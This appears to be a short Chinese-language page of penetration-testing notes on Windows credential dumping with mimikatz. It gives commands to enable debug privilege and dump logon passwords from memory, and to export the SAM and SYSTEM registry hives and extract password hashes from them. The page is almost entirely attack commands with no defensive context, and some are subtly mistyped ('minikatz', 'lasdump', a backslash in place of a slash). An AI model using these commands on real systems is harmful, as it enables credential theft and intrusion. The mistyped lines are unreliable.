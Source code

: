 ### mimikatz

```sh

mimikatz的用法
创建交互式shell环境
privilege::debug
sekurlsa::logonpasswords

minikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

![image-20210830144308558](内网渗透/image-20210830144308558.png)

![image-20210830113951087](内网渗透/image-20210830144946162.png)

```sh
reg save hklm\system system.bak #导出注册表文件
reg save hklm\sam sam.bak 

	
minikatz:
	lasdump::sam /sam:C:\users\xxx\sam.bak \system:C:\users\xxx\system.bak
```

![image-20210830152302915](内网渗透/image-20210830152302915.png)
